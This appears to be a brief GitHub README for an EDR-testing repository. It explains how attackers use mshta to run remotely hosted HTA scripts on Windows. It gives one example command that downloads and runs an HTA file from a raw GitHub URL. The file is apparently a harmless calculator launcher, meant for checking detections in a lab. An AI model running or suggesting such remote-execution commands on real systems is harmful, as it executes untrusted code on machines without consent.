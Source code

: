 # HTA_calc
Testing malicious remote HTA script execution.

Threat Actors can run HTA scripts on windows devices that are remotely hosted by use of mshta.

Example Command:
```
mshta https://raw.githubusercontent.com/MalwareLab49/HTA_calc/main/HTA_calc
```

The intent of this content is to allow for testing in a lab enviornment with EDR deployed to confirm that custiom detections are working as intended.
